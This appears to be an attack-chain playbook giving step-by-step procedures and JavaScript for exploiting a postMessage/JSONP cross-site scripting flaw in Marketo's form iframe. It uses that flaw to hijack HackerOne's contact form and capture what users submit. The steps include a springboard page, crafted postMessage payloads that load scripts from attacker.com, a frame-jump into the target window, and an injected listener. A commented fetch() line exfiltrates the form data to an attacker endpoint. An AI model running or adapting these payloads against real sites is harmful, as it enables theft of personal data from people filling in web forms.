

# Marketo XSS via postMessage and JSONP to Steal HackerOne Contact Form Data

Multi-stage attack chain exploiting an XSS vulnerability in Marketo's cross-domain iframe to enable arbitrary JavaScript execution, frame-jumping to HackerOne's domain, and interception of sensitive contact form data submitted by users.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 5 |
| Execution Time | ~5 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- Web browser with developer console (e.g., Chrome DevTools)
- Local web server to host attacker-controlled pages (e.g., Python's http.server)

### Target Environment

- Web platform with Marketo forms integration (e.g., HackerOne's contact form at www.hackerone.com/product/overview#contact)
- No specific ports required; operates over HTTPS
- Attacker needs ability to host malicious JSONP endpoints

### Initial Access Requirements

- No credentials needed; public-facing web application
- Victim interaction: User must visit attacker's springboard page and later the manipulated HackerOne page
- Network position: Public internet access

## Detailed Attack Procedures

### Step 1: Create Springboard Page
procedure: [[procedures/Create-Springboard-Page-for-Marketo-Iframe]]

**Objective**: Set up a malicious page that embeds the Marketo XDFrame iframe to initiate postMessage communication.

**Instructions**: Host a local HTML page with an iframe sourcing the Marketo XDFrame URL. This enables listening for and sending postMessage events to the iframe.

```html
<!DOCTYPE html>
<html>
<body>
<iframe src="https://app-sj17.marketo.com/index.php/form/XDFrame"></iframe>
<script>
// Listener setup will be added in next steps
</script>
</body>
</html>
```

Serve this page via a local server (e.g., `python -m http.server 8000`).

**Expected Output**: Iframe loads without errors, ready for postMessage interaction.

**Success Indicators**:
- Iframe src loads successfully in browser
- No CORS or loading errors in console

### Step 2: Trigger JSONP XSS
procedure: [[procedures/Trigger-JSONP-XSS-via-postMessage]]

**Objective**: Exploit lack of origin validation in Marketo's postMessage handler to inject malicious ajaxParams, loading an attacker-controlled JSONP script that executes arbitrary JS in the iframe context.

**Instructions**: Add a message listener to the springboard page and send a crafted postMessage to the iframe with ajaxParams specifying a JSONP URL.

```javascript
window.addEventListener('message', function(event) {
  // Detect message from Marketo iframe
  if (event.origin === 'https://app-sj17.marketo.com') {
    // Respond with malicious payload
    event.source.postMessage({
      ajaxParams: {
        url: 'https://attacker.com/jsonp.php',
        dataType: 'jsonp',
        method: 'get'
      }
    }, event.origin);
  }
});
```

The JSONP endpoint (jsonp.php) should return: `alert('XSS in ' + document.domain);` wrapped in a callback.

**Expected Output**: Alert pops up showing 'XSS in app-sj17.marketo.com'.

**Success Indicators**:
- JavaScript executes in Marketo iframe context
- Console logs confirm postMessage delivery

### Step 3: Frame-Jump to HackerOne
procedure: [[procedures/Frame-Jump-to-HackerOne-Contact-Form]]

**Objective**: From the injected JS in the Marketo iframe, open a new window to HackerOne's contact form page using a hash fragment to auto-load the form.

**Instructions**: In the JSONP payload from Step 2, inject code to create and open a link in a new window.

```javascript
// Injected via JSONP
window.open('https://www.hackerone.com/product/overview#contact', 'b');
```

This triggers HackerOne's hash check to load the Marketo contact form.

**Expected Output**: New tab opens to HackerOne with contact form loaded.

**Success Indicators**:
- Window opens without popup blockers
- URL hash #contact is present and form initializes

### Step 4: Inject Listener in Target Iframe
procedure: [[procedures/Inject-Message-Listener-in-HackerOne-Iframe]]

**Objective**: Use setInterval to target the Marketo iframe in the new HackerOne window and inject another JSONP payload that registers a malicious postMessage listener.

**Instructions**: From the springboard page, poll and send postMessage to the iframe in the opened window.

```javascript
var b = window.open('https://www.hackerone.com/product/overview#contact', 'b');
setInterval(function() {
  if (b && b.frames[0]) {
    b.frames[0].postMessage({
      ajaxParams: {
        url: 'https://attacker.com/jsonp2.php',
        dataType: 'jsonp',
        method: 'get'
      }
    }, '*');
  }
}, 1000);
```

jsonp2.php returns JS to add: `window.addEventListener('message', function(e) { if (e.origin !== 'marketo') alert('I HAVE YOUR DATA NOW\n' + e.data); });`

**Expected Output**: Listener registers in HackerOne's Marketo iframe.

**Success Indicators**:
- No errors in interval polling
- JSONP loads in target iframe

### Step 5: Capture Form Data
procedure: [[procedures/Capture-Form-Submission-Data]]

**Objective**: Intercept postMessage events sent during form submission to exfiltrate user data.

**Instructions**: When the victim submits the form on HackerOne, the Marketo form sends data via postMessage, which the injected listener captures and alerts (or sends to attacker server).

```javascript
// Already injected listener intercepts
e.addEventListener('message', function(e) {
  if (e.origin !== 'marketo') {
    // Exfiltrate: fetch('https://attacker.com/exfil', {method: 'POST', body: e.data});
    alert('I HAVE YOUR DATA NOW\n' + JSON.stringify(e.data));
  }
});
```

**Expected Output**: Alert or server log shows submitted form fields (e.g., name, email).

**Success Indicators**:
- Form submission triggers interception
- Data is visible in alert or exfil endpoint

## Attack Chain Summary

### Key Achievements

1. Achieved XSS in Marketo's high-privilege iframe context without direct access to the domain.
2. Chained to cross-frame attack on integrated sites like HackerOne.
3. Successfully exfiltrated sensitive user data from form submissions.

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[JavaScript]] JavaScript
- [[Exploit Public-Facing Application]] Exploit Public-Facing Application

### MITRE ATT&CK Tactics

- [[Initial Access]] Initial Access
- [[Execution]] Execution
- [[Collection]] Collection

---
*Last updated: 2023-10-01T00:00:00Z*
